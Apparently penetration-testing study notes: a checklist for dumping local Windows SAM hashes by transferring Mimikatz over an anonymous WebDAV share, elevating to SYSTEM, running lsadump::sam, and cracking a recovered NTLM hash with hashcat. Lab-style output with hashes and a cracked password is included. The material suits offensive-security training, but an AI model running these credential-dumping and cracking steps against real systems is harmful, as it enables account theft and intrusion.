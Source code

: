 # NTLM

Powershell - Retrieve hashes in the SAM that are stored as NTLM hashes

- [ ] Enumerate Users
    `Get-LocalUser`
    
- [ ] Transfer Mimikatz.exe and execute
    \- An option 
                    ~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --root=./srvdir --auth=anonymous --root ./srvdir & (if wsgidav is installed, pip install wsgidav)
                     map, use the network share, or just wget download it....also can use python http server...ftp...ect....
    
- [ ] Check Privileges
    

```
mimikatz # privilege::debug
Privilege '20' OK
```

- [ ] Get Elevated Token

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     windows.domain\username123    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```

- [ ] Dump SAM

```
mimikatz # lsadump::sam
Domain : windows.domain
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : username123
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
```

- [ ] Copy the NTLM hash and crack it with hashcat

```
kali@kali:~/passwordattacks$ cat nelly.hash     
3ae8e5f0ffabb3a627672e1600f1ba10

hashcat -m 1000 nelly.hash 

....
3ae8e5f0ffabb3a627672e1600f1ba10:nicole1
....
```